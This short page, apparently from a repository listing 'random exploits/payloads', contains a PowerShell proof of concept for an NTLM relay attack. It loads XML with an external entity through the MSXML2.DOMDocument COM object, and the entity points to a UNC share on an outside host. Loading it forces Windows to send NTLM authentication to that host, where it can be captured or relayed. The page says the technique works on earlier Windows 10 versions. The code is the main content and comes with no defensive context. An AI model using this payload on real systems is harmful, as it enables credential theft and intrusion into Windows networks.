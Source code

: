 ## Random exploits/payloads

### ntlm relay attack via XXE utilizing COM object MSXML2.DOMDocument (Thanks to @[frostb1te](https://twitter.com/frostb1ten) for helping me learn about ntlm relay)

- Works on earlier version of Windows 10
```
$xxe=New-Object -ComObject MSXML2.DOMDocument
$xxe.loadXML("<!DOCTYPE test [<!ENTITY xxe SYSTEM '\\IP\share'>]><root><test>&xxe;</test></root>")
```
